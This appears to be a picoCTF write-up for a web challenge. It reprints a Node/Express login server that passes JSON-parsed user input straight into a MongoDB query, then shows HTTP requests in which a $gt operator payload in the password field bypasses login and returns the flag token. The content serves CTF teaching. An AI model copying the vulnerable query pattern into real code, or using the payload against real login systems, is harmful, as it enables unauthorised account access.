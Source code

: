 # Challange Info

Name : No Sql Injection

Difficulty : Medium

Category : Web Exploitation

Link : https://play.picoctf.org/practice/challenge/443?category=1&page=2

# Writeup

Navigating the webpage http://atlas.picoctf.net:49776/.

Looking at server.js source code.

```javascript
const express = require("express");
const bodyParser = require("body-parser");
const mongoose = require("mongoose");
const { MongoMemoryServer } = require("mongodb-memory-server");
const path = require("path");
const crypto = require("crypto");

const app = express();
const port = process.env.PORT | 3000;

// Middleware to parse JSON data
app.use(bodyParser.json());
app.use(bodyParser.urlencoded({ extended: true }));

// User schema and model
const userSchema = new mongoose.Schema({
  email: { type: String, required: true, unique: true },
  firstName: { type: String, required: true },
  lastName: { type: String, required: true },
  password: { type: String, required: true },
  token: { type: String, required: false, default: "{{Flag}}" },
});

const User = mongoose.model("User", userSchema);

// Initialize MongoMemoryServer and connect to it
async function startServer() {
  try {
    const mongoServer = await MongoMemoryServer.create();
    const mongoUri = mongoServer.getUri();
    await mongoose.connect(mongoUri);

    // Store initial user
    const initialUser = new User({
      firstName: "pico",
      lastName: "player",
      email: "picoplayer355@picoctf.org",
      password: crypto.randomBytes(16).toString("hex").slice(0, 16),
    });
    await initialUser.save();

    // Serve the HTML form
    app.get("/", (req, res) => {
      res.sendFile(path.join(__dirname, "index.html"));
    });

    // Serve the admin page
    app.get("/admin", (req, res) => {
      res.sendFile(path.join(__dirname, "admin.html"));
    });

    // Handle login form submission with JSON
    app.post("/login", async (req, res) => {
      const { email, password } = req.body;

      try {
        const user = await User.findOne({
          email:
            email.startsWith("{") && email.endsWith("}")
              ? JSON.parse(email)
              : email,
          password:
            password.startsWith("{") && password.endsWith("}")
              ? JSON.parse(password)
              : password,
        });

        if (user) {
          res.json({
            success: true,
            email: user.email,
            token: user.token,
            firstName: user.firstName,
            lastName: user.lastName,
          });
        } else {
          res.json({ success: false });
        }
      } catch (err) {
        res.status(500).json({ success: false, error: err.message });
      }
    });

    app.listen(port, () => {
    });
  } catch (err) {
    console.error(err);
  }
}

startServer().catch((err) => console.error(err));
```

We get the email `picoplayer355@picoctf.org` and password is random but there is a No Sql Injection.

Capture the login request and send it to repeater.

```
POST /login HTTP/1.1

Host: atlas.picoctf.net:49776

Content-Length: 70

User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36

Content-Type: application/json

Accept: */*

Origin: http://atlas.picoctf.net:49776

Referer: http://atlas.picoctf.net:49776/

Accept-Encoding: gzip, deflate, br

Accept-Language: en-US,en;q=0.9

sec-gpc: 1

Connection: keep-alive

{
  "email":"picoplayer355@picoctf.org",
  "password":"---"
}
```

Modify the password with a No SQL payload.

```
POST /login HTTP/1.1

Host: atlas.picoctf.net:49776

Content-Length: 70

User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36

Content-Type: application/json

Accept: */*

Origin: http://atlas.picoctf.net:49776

Referer: http://atlas.picoctf.net:49776/

Accept-Encoding: gzip, deflate, br

Accept-Language: en-US,en;q=0.9

sec-gpc: 1

Connection: keep-alive

{
  "email": "picoplayer355@picoctf.org",
  "password":"{\"$gt\": \"\"}"
}
```

`Note : Normal payload won't work as the server shows not a function error if any of json parameters starts with "{" and ends with "}".`

In response of this request there is a token which is base64 encoded which can be decoded for the flag.
